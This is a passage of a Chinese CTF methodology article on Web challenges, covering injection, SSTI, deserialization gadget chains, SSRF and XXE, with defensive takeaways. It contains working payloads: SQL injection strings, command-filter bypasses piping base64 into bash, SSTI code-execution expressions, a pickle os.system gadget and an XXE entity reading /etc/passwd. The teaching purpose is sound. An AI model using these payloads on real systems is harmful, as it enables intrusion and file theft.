





# CTF方法论体系（5）· Web解题范式

> [!abstract] TL;DR
> - Web CTF 的本质是白盒代码审计与黑盒协议探测的混合博弈：赛题几乎必给 `Dockerfile`/`docker-compose.yml` 暴露技术栈与版本，解题效率的第一决定因素不是"手速"而是能否第一时间把攻击面收敛到"这道题到底在考哪类漏洞"。
> - 五大漏洞家族按"不可信数据流向哪个解释器"统一归类：注入类（SQL/命令/模板 SSTI）让数据越权进入语法解析器，反序列化让数据越权触发对象重建与魔术方法，SSRF/XXE 让服务端越权替攻击者发起请求，越权与逻辑漏洞是访问控制模型本身的缺陷，XSS/CSRF/原型链污染把战场搬到浏览器端——纵深原理呼应系列 57。
> - SSTI 判型口诀 `{{7*7}}`/`${7*7}`/`#{7*7}`/`*{7*7}` 对应 Jinja2-Twig／FreeMarker-Velocity／Ruby-OGNL／Thymeleaf 四条门派，沙箱逃逸的通用范式都是"从当前字符串或函数对象出发，沿 `__class__`/`__mro__`/反射链爬到一个已导入危险模块的基类"。
> - 反序列化的胜负手不是"能不能造出对象"而是"能不能在类路径里拼出一条从入口 gadget 到命令执行 sink 的属性触发链"；ysoserial（Java）/PHPGGC（PHP）把链条构造自动化，但 CTF 出新 gadget 时仍要手读 `readObject`/`__wakeup`/`__destruct`/`__reduce__` 源码。
> - 工具分工明确：Burp Suite 是人工改包与被动分析的枢纽，sqlmap/dirsearch/ffuf 负责机械化探测，本地 `docker-compose up` 复现源码环境后挂 IDE 断点、并与开源上游版本 diff，是白盒题效率最高的两把钥匙。
> - 全部技术只在授权靶场演练，正文以防御视角收尾：理解注入是为了学会参数化查询，理解反序列化黑名单绕过是为了明白黑名单类拦截天生打不完，唯有白名单与"不对不可信数据做原生反序列化"才是治本之道。

## 概述与定位

Web 方向是绝大多数 Jeopardy 赛制里题量最大、入门门槛最低、但深水区最深的赛道：一场中量级 CTF 里 Web 题目常占总题量的四分之一到三分之一，签到题往往一两个请求就能拿 flag，但决赛/线下赛的压轴 Web 题常常是"SSRF 打穿内网 Redis → 反序列化 RCE → 内网横向"这种四五步链路，考验的是审计耐心而非临场灵感。与 Pwn/Reverse 盯着内存布局、Crypto 盯着数学结构不同，Web 的攻击面是**HTTP 请求-响应循环与服务端业务逻辑**：一次请求经过网关（Nginx/Apache 反代与路由）、应用框架（路由分发、中间件、模板渲染）、业务代码（鉴权、参数校验、数据库访问），最终落到某个"解释/执行"点——这条链路上任何一环把不可信输入当作可信数据处理，就是一个潜在漏洞。

Web 与 Pwn/Reverse 最大的方法论差异在于"给不给源码"。Pwn 题几乎总以黑盒二进制形式出现（有源码也只是加分辅助），Web 题恰恰相反——赛题为保证环境可复现，几乎必然打包成 `Dockerfile` + `docker-compose.yml`，这意味着**代码审计（白盒）**在 Web 里是主战场，黑盒探测（目录爆破、参数模糊测试）更多是在打点阶段圈定审计范围，或应对赛题故意隐藏源码的"半黑盒"场景。这也是本篇与 03（Reverse）/07（静动分析速查）的分工差异：Reverse 读的是反汇编还原出的近似源码，Web 直接读原始高级语言源码，审计技能可复用（多语言代码阅读、diff 已知开源项目找"故意引入的漏洞点"），但工具链完全不同。Web 方向也是五大方向里与真实渗透测试/漏洞赏金最贴近的一支——CTF 里练的 SQL 注入、SSTI、反序列化链条，与真实红队评估用的手法在原理层面几乎是同一套，差异主要在于 CTF 环境为保证"有限时间内可解"，通常省略了 WAF/IDS 这层噪音、把漏洞做得相对孤立可复现，而真实环境需要叠加规避检测、处理多层防御。

拿到题目的第一步不是急着找漏洞，而是先反推"flag 大概率藏在哪、需要什么权限/视角才能看到"，这决定了后续该往哪类漏洞使劲——flag 写在只有 root 可读的 `/flag` 文件，意味着终点是任意命令执行或任意文件读取且以高权限运行；flag 存在数据库某张表里，意味着终点是 SQL 注入的数据抽取而非命令执行；flag 以环境变量形式注入容器，意味着终点可能只需要读到 `/proc/self/environ` 或触发一次错误回显；flag 需要以管理员身份登录后台才能看到，意味着终点是越权或 XSS 打管理员 Cookie。建立这套"倒推终点"的心智模型，比直接埋头翻代码更省时间。



## 原理与机制

Web 安全的几乎全部技术分支，都能收束成同一句话：**任何时候，不可信输入被喂给一个具备"解析并执行"能力的组件，且该组件无法区分"这是数据"还是"这是指令"，就构成注入**。这背后是一个统一的心智模型——把服务端处理请求的过程看作一连串"解释器"接力：URL 路由器解析路径、模板引擎解析视图语法、SQL 驱动解析查询语句、反序列化器解析对象字节流、XML 解析器解析标签与实体、Shell 解析命令行、文件系统解析路径。每种解释器都有自己的"语法边界"，安全的做法是把用户输入严格限制在"数据"的语义位置（参数化查询的占位符、模板变量插值而非模板拼接、白名单校验后的路径）；一旦用户输入突破数据边界写入"控制"位置（拼进 SQL 语句结构、拼进模板源码本身、构造出可被解析器识别为特殊指令的字节序列），解释器就会"上当"，把攻击者的构造当成开发者本该写的逻辑来执行。

与内存漏洞不同，Web 的攻击面天然是**协议层完全开放**的——HTTP 请求的方法、路径、查询串、请求头、Cookie、请求体，全部由客户端拼装，服务端唯一能确认的只有"这确实是一个合法的 HTTP 请求"，至于其中每个字段的语义是否符合预期，全靠服务端代码自己校验。这也是为什么"永远不要信任客户端输入"是 Web 安全里出现频率最高、却也最难真正贯彻的一句话——校验逻辑本身可能有绕过点（黑名单遗漏大小写/编码变体）、校验位置可能不完整（只在前端 JS 校验，或只校验了展示层却漏了另一个能直达同一 sink 的接口）、校验的语义可能与解释器的实际语义有偏差（对 SQL 关键字做过滤，但解释器支持的注释语法/编码方式绕过了过滤）。

Web 安全还有浏览器这一半战场。服务端信任边界之外，浏览器用**同源策略（Same-Origin Policy）**在协议、域名、端口三者都相同时才允许脚本互相访问 DOM 与 Cookie，CORS/CSP 是对这个默认策略的受控放宽与收紧。XSS 的本质是让攻击者的脚本以"受害者同源"的身份跑起来，从而突破这层浏览器沙箱；CSRF 的本质是利用浏览器"自动带上 Cookie"的默认行为，让受害者在不知情时以自己的身份发出请求。这两类客户端漏洞与服务端注入类漏洞的根本区别在于**信任主体不同**——服务端漏洞打的是"服务器该不该信任这个请求里的数据"，客户端漏洞打的是"浏览器/受害者该不该信任这段脚本/这次请求"。

CTF Web 题目的构造有清晰套路，理解这套路能反向指导解题方向。出题人通常从两条路径下手：其一是**版本嵌洞**——选定一个真实存在已知 CVE 的框架/中间件/依赖库旧版本（Struts2、Fastjson、Log4j、Spring、Laravel、Django REST framework 都是重灾区），题目代码本身"干净"，漏洞完全来自第三方依赖，解题第一步就变成"读 `requirements.txt`/`package.json`/`pom.xml` 精确锁定版本号，查该版本的 CVE 公告"；其二是**自制漏洞**——出题人手写一段业务代码，故意留一个不那么明显的逻辑破绽（比如校验函数对某个特殊输入类型判断有误、比较用的是 `==` 而非严格类型比较导致的 PHP 松散比较绕过、白名单用正则但正则本身有匹配缺陷），这类题目必须靠源码审计而非查 CVE 库解决。区分这两种构造方式，是审计效率的关键分岔点。



## 漏洞类型与利用链详解

### 注入三兄弟：SQL / NoSQL / 命令注入

SQL 注入是 Web 漏洞里历史最久、变体最全的一支，按"能不能直接看到查询结果"分两大类：**带内注入（in-band）**——联合查询（UNION-based，要求前后字段数与类型对齐，先用 `ORDER BY` 探列数）和报错注入（error-based，利用数据库函数如 MySQL 的 `extractvalue`/`updatexml` 在处理非法 XPath 时把子查询结果拼进报错信息回显）；**带外/盲注（blind）**——布尔盲注（用条件表达式的真假驱动页面出现可观测差异，逐位猜解）和时间盲注（`SLEEP()`/`pg_sleep()` 用响应延迟当作"1 bit"信道，在页面无任何可观测差异时是最后手段）。二阶注入（second-order）更隐蔽：恶意数据先被安全地存进数据库（插入点用了参数化语句），但后续某个业务逻辑把它**读出来后又不加处理地拼进另一条 SQL 语句**，形成跨越两次请求的注入链，代码审计时若只看"插入点"用了预处理语句就误判安全，是最容易被漏掉的一类。

NoSQL 注入（以 MongoDB 为代表）打的是另一套语法边界：MongoDB 查询用 JSON 风格的操作符（`$gt`/`$ne`/`$regex`/`$where`），如果后端直接把请求体整体丢进 `find()` 而不做类型强制，攻击者传 `{"username": "admin", "password": {"$ne": ""}}` 就能在不知道密码的情况下让"密码不等于空"永真绕过校验——本质仍是"用户输入越权进入了查询的结构位置"，只是语法从 SQL 换成了 JSON 操作符，`$where` 更进一步允许内嵌 JavaScript 表达式，等于在 NoSQL 里叠了一层代码注入。

命令注入的关键是 Shell 元字符——`;`、`|`、`&&`、`` ` ``、`$()` 都能让原本单一命令变成多条命令拼接执行。出题人若用黑名单过滤空格/关键字，绕过手法也有固定套路：`${IFS}`、`$IFS$9`、`<` 重定向充当分隔符绕过空格过滤；`w'g'et`、`p${PATH:0:0}ing` 之类插入空变量绕过关键字全字匹配；整个 payload 先 base64 编码再用 `echo xxx|base64 -d|bash` 绕过特殊字符黑名单。命令注入与代码注入（PHP/Python `eval()`、Node `vm.runInThisContext`）要分清——前者拼进操作系统 Shell 语法，后者拼进宿主语言自身语法，后者往往有更丰富的沙箱逃逸手法（见下节 SSTI）。

| 注入类型 | 触发信号 | 提取方式 | 典型 payload 特征 |
| --- | --- | --- | --- |
| UNION-based | 页面直接回显查询结果 | `UNION SELECT` 拼接，先用 `ORDER BY n` 探列数 | `' UNION SELECT 1,2,database()-- -` |
| 报错注入 | 页面回显数据库错误信息 | 借错误函数把子查询结果编码进报错文本 | `updatexml(1,concat(0x7e,(select ...)),1)` |
| 布尔盲注 | 页面对真假条件呈现可观测差异 | 条件表达式逐位猜解，二分法提速 | `' AND ascii(substr((select ...),1,1))>77-- -` |
| 时间盲注 | 页面无任何差异，只有响应耗时不同 | `SLEEP(n)` 作为 1 bit 信道，逐位猜解 | `' AND IF(condition,SLEEP(3),0)-- -` |
| 堆叠查询 | 驱动/中间件允许一次提交多条语句 | 直接追加任意语句 | `'; SELECT ...-- -`（CTF 多用于附加查询而非破坏） |
| 二阶注入 | 插入点参数化安全，另一处读取拼接不安全 | 先写入，触发另一读取路径时爆发 | 昵称写入 payload，后台"欢迎 xxx"页面拼接输出 |

### SSTI：服务端模板注入的沙箱逃逸范式

模板引擎的本职工作是把"模板"（开发者写的、可信的视图骨架，含变量占位符如 `{{ username }}`）与"数据"（用户输入，只该被当成字符串插值进占位符）分离开。SSTI 之所以成立，是因为某些代码把用户输入直接拼进了**模板本身**，而不是作为模板要渲染的数据——比如 `render_template_string(f"欢迎 {user_input}")` 而不是 `render_template_string("欢迎 {{ name }}", name=user_input)`。前者里用户输入成了模板源码的一部分，会被模板引擎的表达式语法解析；后者里用户输入永远只是变量的值，无论内容是什么都只会被当字符串处理（至多触发 XSS，够不到服务端代码执行）。这个区别是 SSTI 与普通模板 XSS 的分水岭，也是审计定位 sink 的第一判断标准：搜代码里所有 `render_template_string`/`Template(...).render`/字符串拼接后再传给渲染函数的调用点。

判型是 SSTI 解题第一步，不同模板引擎表达式语法不同，送入一个能自我暴露身份的算式是最快的指纹探测：

| 探测 payload | 命中回显 | 对应引擎 | 语言/生态 |
| --- | --- | --- | --- |
| `{{7*7}}` | `49` | Jinja2 / Twig | Python Flask / PHP Symfony |
| `${7*7}` | `49` | FreeMarker / 部分 Velocity / JSP EL | Java |
| `#{7*7}` | `49` | 部分 Ruby ERB / OGNL（Struts2）/ JSF EL | Ruby / Java |
| `*{7*7}` | 需 `th:*` 上下文中命中 | Thymeleaf | Java Spring |
| `{{7*'7'}}` | `7777777`（字符串重复而非 49） | Jinja2（二次确认，区分于其它花括号引擎） | Python |
| `<%= 7*7 %>` | `49` | ERB / JSP scriptlet | Ruby / Java |

判型之后是构造代码执行链，这一步的核心思路对所有语言相通：**从当前渲染上下文能拿到的任意一个对象出发，沿"类型自省/反射"这条路径，找到一个已经在其命名空间里持有危险能力（导入了 `os`/`subprocess`、持有 `Runtime`/`ProcessBuilder`）的对象，再把它的方法调出来**。以 Jinja2 为例，`''.__class__` 拿到 `str` 类型，`.__mro__`（method resolution order，类的继承链）或 `.__base__` 走到 `object`，`object.__subclasses__()` 是 Python 解释器为支持内省而提供的能力，会**枚举当前进程里已加载的每一个类**——这不是漏洞，是 Python 语言的正常自省特性，只是在 SSTI 场景下被用作"从公开可达的字符串对象，遍历到进程里所有类"的跳板。接下来只需在这个类列表里找一个"闭包（`__globals__`）里已经 `import os` 或 `import subprocess`"的类，把它某个方法的 `__globals__` 当字典取出模块引用，就等价于直接拿到了模块对象，可调用 `os.popen('id').read()`。全过程没有一步"越权"——每一步属性访问都是 Python 语言规范允许的合法操作，SSTI 沙箱逃逸的本质是**把语言自身的自省能力当成了武器**，这也是为什么给 Jinja2 打沙箱（`SandboxedEnvironment`）远比想象中难：只要沙箱还允许属性访问和方法调用，理论上就还有链子没被堵死。

Java 生态的 SSTI 更凶险，因为反射（`Class.forName`/`getMethod`/`invoke`）是一等公民，几乎每个模板引擎的表达式语言都能直接调到它：FreeMarker 内置 `freemarker.template.utility.Execute` 工具类可直接执行系统命令；Velocity 可以 `$e.getClass().forName("java.lang.Runtime")` 拿到 `Runtime` 再反射调 `exec`；Spring 的 SpEL 语法本身就支持 `T(...)` 静态类型引用，`T(java.lang.Runtime).getRuntime().exec('id')` 几乎不需要"逃逸"就是原生语法特性；OGNL（Struts2 的表达式语言）历史上一系列 CVE 的根源都是 OGNL 表达式在某些上下文被"二次解析"，让本该是数据的 HTTP 头/参数值被当成 OGNL 表达式再执行一次。Java 模板/表达式引擎的 SSTI 面积远大于 Python，本质原因是 Java 把"反射与类型自省"设计成了公开、高性能、被表达式语言原生支持的特性，而 Python 的等价能力更多是解释器实现细节的副作用，只是同样可达。PHP 侧 Twig/Smarty 也有对应链条（`{{['id']|filter('system')}}` 利用管道语法把内置过滤器当函数指针滥用），思路仍是"表达式语言里有没有一条能摸到系统调用的路"。

值得横向对比的反例是 Go 语言的 `html/template`：Go 的模板系统在设计之初就把"上下文感知的自动转义"作为一等目标，模板执行时会根据输出位置（HTML 属性/JS 字符串/URL）动态选择转义策略，且模板语言本身**不支持任意方法调用与反射自省**（只能调用显式注册进 `FuncMap` 的函数），这从设计层面直接切断了"从字符串对象爬到危险模块"这条路——这也是为什么"Go 模板 SSTI"在 CTF 里几乎不作为独立题型出现，只有当开发者显式把危险函数注册进 `FuncMap` 时才可能出问题。这个对比揭示了防 SSTI 的根本思路：**不是靠黑名单堵表达式，而是让模板语言本身不具备反射到宿主语言运行时的能力**。



### 反序列化：从对象重建到任意代码执行

序列化把内存中的对象图编码成字节流以便存储或传输，反序列化则是逆过程——**问题恰恰出在"逆过程"往往不只是简单的数据填充，而是会真正实例化类、调用构造方法与一系列"魔术方法"**：Java 的 `ObjectInputStream.readObject()` 在反序列化时会调用目标类自定义的 `readObject`/`readResolve`；PHP 的 `unserialize()` 会在对象构造完成后调用 `__wakeup()`，对象被销毁时调用 `__destruct()`，某些场景下字符串上下文触发 `__toString()`；Python `pickle.loads()` 会调用对象类的 `__reduce__`/`__setstate__`；Node.js 某些序列化库支持把函数本身序列化再在反序列化端 `eval` 回来。这些魔术方法的设计初衷都是**善意的**——让类有机会在被重建时做初始化或资源重连的收尾工作——但反序列化器并不知道、也没有能力校验"即将被重建的这个类，是不是当前上下文真正期望的类"，如果攻击者能控制字节流里"要实例化哪个类、赋哪些属性值"，就等于能在受害进程里**摆好任意一个类的实例并让它的魔术方法带着攻击者指定的属性值跑一遍**。

这引出反序列化 RCE 里最重要的两个概念：**gadget（挂件）**指目标代码库/框架/标准库里已经存在的、开发者自己没写、但恰好有一个魔术方法或普通方法在拿到特定属性值时会产生"有用副作用"（写文件、发反射调用、执行系统命令）的类；**gadget chain（挂件链）**是把多个 gadget 串起来，让反序列化器自动触发的第一个魔术方法，通过一连串"看似无害"的属性访问/比较/哈希计算，最终级联到某个真正危险的 sink。以 Java 生态最著名的 Commons-Collections 链为例：`AnnotationInvocationHandler`（JDK 内置类）的 `readObject` 会对内部 `Map` 做一次 `equals` 比较，如果这个 Map 恰好是 Commons-Collections 库提供的 `LazyMap`/`TransformedMap`，`equals`/`get` 触发时会顺着预先配置好的一串 `Transformer`（`ConstantTransformer` → `InvokerTransformer` 反射调用任意方法）执行下去，链条终点配置成调用 `Runtime.getRuntime().exec(cmd)` 就拿到了命令执行。**理解这条链不需要知道"漏洞在哪一行"，因为压根没有传统意义上的越界写/野指针——每一步都是相关类文档里写明的正常行为，攻击者只是找到了一种恰好对自己有用的组合方式**，这也是反序列化漏洞和内存破坏类漏洞在思维方式上最大的不同：前者是"逻辑拼图"，后者是"边界击穿"。ysoserial 内置了几十条这样的公开链（CommonsCollections1-11、CommonsBeanutils、Spring1/2、Groovy1 等），CTF 里遇到反序列化题的标准流程是先用 `ysoserial -p` 列出可用链、结合题目 `pom.xml`/`build.gradle` 依赖版本挑一条能用的直接生成 payload，链条缺失或版本不匹配时才需要手工在题目自带的类里现挖新 gadget。

PHP 的反序列化是**POP 链（Property-Oriented Programming，属性导向编程）**的经典战场，思路与 Java 一致但更"手工"：`unserialize()` 触发 `__wakeup()` → 某个属性恰好是另一个对象 → 对它取值/字符串化触发 `__get`/`__toString` → 层层递进直到某个类的 `__destruct`/`__toString` 里出现 `file_put_contents`/`call_user_func`/`eval` 之类的危险调用，需要审计代码里所有定义了魔术方法的类，手工拼出属性赋值路径（PHPGGC 是 PHP 版 ysoserial，内置常见框架公开链）。PHP 反序列化还有两个必须单独讲的陷阱：其一，`__wakeup` 绕过——当序列化字符串里声明的**属性个数大于对象实际属性数**时（如 `O:4:"Test":2:{...}` 把数字改大），PHP 早期版本会跳过 `__wakeup` 调用，这是纯粹的解析器实现缺陷，曾是绕过"先做黑名单类名过滤再 `unserialize`"防御的通用手法；其二，**Phar 反序列化**——PHP 的 `phar://` 流包装器会在文件的 meta-data 区里存一段**序列化数据**，只要代码执行了任何"文件系统操作函数"（`file_exists`、`is_file`、`file_get_contents`，甚至只是 `include`）且参数是 `phar://xxx.jpg` 这样的 URI，PHP 底层解析 phar 文件格式时就会**自动反序列化其中的 meta-data**——即便代码里根本没出现 `unserialize()` 字样，只要能让一个文件系统函数吃到攻击者上传的、后缀伪装成图片的 phar 文件路径，反序列化照样触发，这是审计时最容易漏掉的隐式反序列化点。

Python 的 `pickle` 更"直白而危险"：`__reduce__` 方法的设计初衷是让对象告诉 pickle "如果要重建我，请调用某个函数并传入这些参数"，这本是服务于无法直接序列化的复杂对象，但如果攻击者能直接构造 pickle 字节流（不需要真的拥有一个 Python 类实例），完全可以让 `__reduce__` 逻辑返回 `(os.system, ("id",))`，pickle 加载时就会老老实实调用它——比 Java/PHP 链条更进一步的是，攻击者甚至不需要"类"这个概念，pickle 字节码层面（`GLOBAL` + `REDUCE` opcode）可以直接手写，指明"导入某模块的某函数、传入某参数、调用它"，这是三种语言里反序列化到代码执行路径最短的一个，也是 `pickle.load`/未加 `Loader=SafeLoader` 的 `yaml.load` 在 CTF 里几乎等价于"直接给你一个代码执行接口"的原因。

三种语言的反序列化机制横向看有清晰的危险度梯度，根源在于**"重建对象"这一步默认能触达的能力范围**：Python pickle 默认路径就能直接调用任意可导入的函数，是三者中最危险、最直接的；Java 需要先找到一个"恰好在魔术方法里做了危险操作或反射调用"的 gadget 类，门槛高于 pickle 但生态里 gadget 太多导致实践中同样泛滥；PHP 的 POP 链高度依赖**当前代码库里恰好定义了哪些带魔术方法的类**，链条相对"私有"，门槛相对最高，但胜在 PHP 应用高度依赖第三方框架，公开链覆盖面依然很广。

| 语言 | 触发反序列化的方式 | 关键魔术方法/机制 | 常用工具 | 危险度特征 |
| --- | --- | --- | --- | --- |
| Java | `ObjectInputStream.readObject()` | `readObject`/`readResolve`/`equals`/`hashCode` | ysoserial | 需类路径存在可用 gadget 链，但生态里链条极多 |
| PHP | `unserialize()`，或隐式经 `phar://` 流包装器 | `__wakeup`/`__destruct`/`__toString`/`__get` | PHPGGC | POP 链依赖业务代码自身类定义，链条较"私有" |
| Python | `pickle.loads()`，或未加安全 Loader 的 `yaml.load()` | `__reduce__`/`__setstate__` | 手工构造 / `pickletools` | 可直接指定任意可导入函数调用，门槛最低 |
| Node.js | 第三方库（如 `node-serialize`）的自定义反序列化 | 约定标记触发的 IIFE | 手工构造 | 原生 `JSON.parse` 无此问题，风险集中在自定义反序列化库 |
| .NET | `BinaryFormatter`/`ViewState` | 类型解析后走构造/属性设置链 | ysoserial.net | 与 Java 思路一致，`TypeConverter` 场景独有 |



### SSRF 与 XXE：让服务端替你发请求

SSRF（服务端请求伪造）的本质是应用提供了"服务端帮你去访问一个 URL"的功能（抓取远程图片、Webhook 回调、导入远程文件），而这个 URL 的目标地址由攻击者指定。危险来自一个简单事实：**服务器自身的网络位置通常比攻击者更"值钱"**——它可能位于云厂商内网，能访问元数据端点拿到临时凭据；它可能与内网的 Redis/MySQL/内部管理后台同一网段，而这些服务往往没有对外暴露，也就没做严格鉴权，天真地假设"能连到我的都是内部可信调用方"。SSRF 更进一步的威力在于**协议走私**：如果服务端使用的 URL 请求库支持 `gopher://` 协议，攻击者可以在 gopher URL 里编码任意原始字节，这些字节会被目标 TCP 服务按其自身协议解析——比如构造一段 gopher URL，让服务端"发起 HTTP 请求"这个动作实际上向内网 Redis 的 6379 端口发送了一段合法的 Redis 协议命令（`SET`/`CONFIG SET dir`/`CONFIG SET dbfilename`/`SAVE`，把 webshell 写到 Redis 能落盘的路径），这就是"SSRF 打 Redis 写 webshell"这条 CTF 经典链路的原理——SSRF 只是"投递手段"，真正破坏力来自能否把任意字节送到一个未鉴权的内网服务并让它执行有害操作。

防御 SSRF 常见的第一反应是对目标 host 做黑名单（过滤 `127.0.0.1`/`localhost`/内网网段），但这类黑名单历史上被反复绕过：用十进制/八进制/十六进制表示的 IP（`http://2130706433/` 等价于 `127.0.0.1`）、用 `[::1]` 或 IPv4 映射地址、利用 DNS 解析在"检查时"和"实际发起请求时"两次解析结果不同（DNS rebinding）、让服务器跟随一次 302 跳转到内网地址。这些绕过手法背后是同一个道理：**"host 字符串"和"这次网络请求最终真正连接的地址"之间隔着 DNS 解析、重定向、编码归一化好几层，任何一层没有在"发起连接的那一刻"重新校验，过滤就形同虚设**——真正稳妥的 SSRF 防御要做到应用层协议白名单（只放行 `http(s)`，堵死 `gopher`/`file`/`dict`）加上在**实际建立 socket 连接前**对已解析出的 IP 做网段校验，而不是只在拿到 URL 字符串时校验一次。

XXE（XML 外部实体注入）打的是另一条历史遗留的"善意特性"：XML 的 DTD 允许在文档内部通过 `<!ENTITY>` 声明一个"外部实体"，其值指向一个外部资源，解析器解析正文时若遇到对该实体的引用，会自动取回资源内容替换进去——这个特性最初为了支持模块化文档复用，但绝大多数应用场景根本用不到，于是它成了一个默认开启、却几乎从不需要、一旦被滥用就能读任意文件甚至发起 SSRF 的"僵尸特性"：

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>
```

当应用把解析结果直接展示出来时是"回显型 XXE"，可直接读到文件内容；解析结果不回显时要用**盲 XXE（Out-of-Band）**——用外部 DTD 文件配合参数实体，把目标文件内容通过发起一次外带 HTTP 请求带到攻击者可控的服务器上；某些场景下即使 DOCTYPE 声明本身被过滤，XML 规范里的 `XInclude` 机制在部分解析器配置下依然能达到类似效果，是审计"禁用 DOCTYPE 是否就等于安全"这一误区时必须补充的一课。



### 文件上传与文件包含

